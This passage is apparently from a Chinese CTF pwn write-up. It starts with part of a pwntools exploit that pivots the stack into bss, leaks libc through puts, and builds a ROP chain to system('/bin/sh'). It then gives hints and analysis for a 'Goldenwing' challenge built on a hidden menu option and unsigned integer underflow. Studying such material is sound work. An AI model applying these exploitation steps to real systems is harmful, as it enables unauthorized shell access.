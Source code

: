 ```python
    pad = b'a' * 0x80 + p64(bss) + p64(main)
    io.sendafter(b'me?', pad)

    pad = flat([
        bss + 0x600,
        pop_rdi, elf.got['puts'],
        elf.plt['puts'],
        main
    ]).ljust(0x80, b'\x00') + p64(bss - 0x80) + p64(leave)
    io.send(pad)

    io.recvuntil(b'\n')
    libc.address = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
    success('libc.address: ' + hex(libc.address))

    pad = flat([
        bss, 
        pop_rdi, libc.search(b'/bin/sh').__next__(),
        pop_rdi + 1,
        libc.symbols['system']
    ]).ljust(0x80, b'\x00') + p64(bss + 0x600 - 0x80) + p64(leave)
    io.send(pad)

    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```

## Goldenwing

> 你能打败 Goldenwing 吗？
>
> - 本题可能有点难度，如果现在完全没有想法可以先放放以后再写
>
> 
>
> hint
>
> - 俗话说“负负得正”
> - 可以往栈上写一段东西，或许可以可以先提前进行栈布局？
> - 一次格式化字符串漏洞只能写一次吗？

预期难度：Hard

**题目分析**

菜单中有个隐藏选项`0xcafebabe`，选择后可以向栈上写一些数据；在`practice`函数里我们可以输入要增长的 hp 和 power 值，这里限制了增长值不能太高，但却并没有限制输入负数，而 hp 和 power 都是无符号整数，所以我们可以通过无符号整数的下溢来使 hp 和 power 变得很大从而打败 boss
